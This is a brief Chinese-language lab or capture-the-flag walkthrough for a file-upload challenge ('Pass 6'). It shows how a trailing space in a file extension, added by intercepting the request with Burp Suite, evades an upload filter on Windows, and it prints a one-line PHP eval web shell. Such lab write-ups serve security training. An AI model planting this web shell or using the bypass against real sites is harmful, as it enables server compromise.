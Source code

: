 ## 解题wp(By:独立团孙德胜Alan)
本pass可以通过增加空格的方式绕过，注意，此Pass需要修改PHP环境为5.2.17

## 1.打开第六关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)

#### 提示不允许上传

## 3.分析代码

![](./img/3.png)

#### $file_ext = trim($file_ext); //首尾去空

#### 抓包增加空格。window和linux系统文件名后缀都会自动过滤空格

## 4.我们可以使用Burpsutie抓包，利用windows系统特性绕过

![](/img/4.png)
